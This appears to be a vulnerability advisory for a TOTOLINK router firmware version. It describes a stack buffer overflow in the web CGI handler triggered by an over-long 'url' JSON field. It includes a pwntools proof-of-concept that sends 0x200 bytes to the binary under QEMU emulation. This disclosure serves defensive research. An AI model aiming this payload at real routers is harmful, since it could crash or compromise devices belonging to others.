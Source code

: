 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00415bf0` (at address 0x415bf0) gets the JSON parameter `url`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setUrlFilterRules",
    "addEffect": "0",
    "url": "A"*0x200,
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

